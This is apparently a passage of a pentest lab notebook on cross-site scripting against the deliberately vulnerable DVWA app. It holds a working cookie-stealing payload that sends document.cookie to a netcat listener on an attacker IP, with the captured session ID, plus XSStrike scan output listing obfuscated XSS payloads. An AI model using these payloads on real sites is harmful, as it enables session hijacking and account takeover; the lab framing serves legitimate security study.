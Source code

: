 6. Check cookies.txt for the PHP session ID

   ```
   $ cat cookies.txt    
   PHPSESSID=mlojsspptmctk0ailhqi7fnkh1
   ```

#### Steal cookies Method 2 (DVWA - low security)

1. Start netcat lister

   ```
   # nc -lvp 444
   ```

2. Paste the payload in the input box and submit

   ```
   <script>new Image().src="http://192.168.101.125:4444/ouput="+document.cookie;</script>
   ```

3. Check the netcat listerner

   ```
   $ nc -lvp 4444              
   listening on [any] 4444 ...
   192.168.101.122: inverse host lookup failed: Unknown host
   connect to [192.168.101.125] from (UNKNOWN) [192.168.101.122] 54598
   GET /ouput=_pk_id.1.1fff=614ebbc1a5cf65be.1612940648.;%20PHPSESSID=9sf89jhdf2dlt6m23tb3gevd33;%20security=low HTTP/1.1
   Host: 192.168.101.125:4444
   User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
   Accept: image/avif,image/webp,*/*
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Connection: keep-alive
   Referer: http://localhost/
   ```



#### Automated Attacks

##### XSStrike

https://github.com/s0md3v/XSStrike

```sh
$ python3 xsstrike.py -u http://192.168.101.122/vulnerabilities/xss_r/?name=query --headers "Cookie: security=high; PHPSESSID=9sf89jhdf2dlt6m23tb3gevd33" --skip-dom

	XSStrike v3.1.4

[+] WAF Status: Offline 
[!] Testing parameter: name 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <d3v%0aonMOUSEOVEr%0a=%0aconfirm()%0dx>v3dm0s 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] y
------------------------------------------------------------
[+] Payload: <dETAilS/+/ONToggLe+=+[8].find(confirm)%0dx> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] 
```
